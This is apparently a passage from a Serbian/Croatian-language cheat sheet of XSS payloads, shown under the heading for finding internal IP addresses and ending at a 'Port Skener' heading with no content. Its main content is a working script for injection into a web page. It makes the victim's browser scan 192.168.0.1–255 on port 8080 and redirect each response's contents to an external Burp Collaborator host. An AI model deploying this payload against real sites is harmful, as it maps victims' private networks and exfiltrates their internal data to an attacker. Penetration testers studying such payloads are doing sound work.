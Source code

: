 ### Pronađite interne IP adrese

```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
q.push(
function(url){
return function(){
fetchUrl(url, wait);
}
}('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
if(q.length) q.shift()();
}

function fetchUrl(url, wait){
console.log(url)
var controller = new AbortController(), signal = controller.signal;
fetch(url, {signal}).then(r=>r.text().then(text=>
{
location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
}
))
.catch(e => {
if(!String(e).includes("The user aborted a request") && q.length) {
q.shift()();
}
});

setTimeout(x=>{
controller.abort();
if(q.length) {
q.shift()();
}
}, wait);
}
</script>
```

### Port Skener (fetch)
